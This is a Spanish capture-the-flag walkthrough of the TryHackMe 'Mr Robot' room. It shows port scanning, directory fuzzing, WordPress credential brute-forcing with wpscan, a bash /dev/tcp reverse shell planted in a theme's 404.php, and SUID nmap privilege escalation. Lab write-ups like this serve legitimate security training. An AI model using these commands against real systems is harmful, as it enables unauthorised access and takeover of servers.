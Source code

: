 ```yaml
---
title: "mrrobot"
description: "mrrobot"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/mrrobot

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.88.41
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602185415.png)

## Reconocimiento de servicios

````
nmap -sCV -p22,80,443 10.10.88.41
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602185536.png)

## Fuzzing

````
gobuster dir -u http://10.10.88.41 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602185850.png)
Encontramos un diccionario
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602190157.png)

# Fase de ataque

## Wordpress

Hacemos Brute force sobre el login para encontrar el usuario con el diccionario encontrado.
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602190701.png)
Por la longitud de la respuesta vemos que el usuario elliot es valido
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602191354.png)
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602191538.png)

## Brute force password

Con el diccionario dado

````
wpscan --url http://10.10.88.41/wp-login.php -U elliot -P fsocity.dic
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240602195404.png)Logging con wp_yura

## Reverse Shell

Editamos el Tema 404.php e insertamos una reverse shell

````
system("bash -c 'bash -i >& /dev/tcp/10.9.0.36/443 0>&1'");
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240531190415.png)
Nos ponemos en escucha por el puerto 443

````
nc -nlvp 443
````

\[-\] ==pwned!==

# Privilege Escalation

Numeramos archivos con permisos

````
find \-perm -4000 2>/dev/null
````

Encontramos nmap y con https://gtfobins.github.io/gtfobins/nmap/ hacemos la escalada

````
/usr/local/bin/nmap --interactive
	!sh
````

\[+\] ==pwned!==
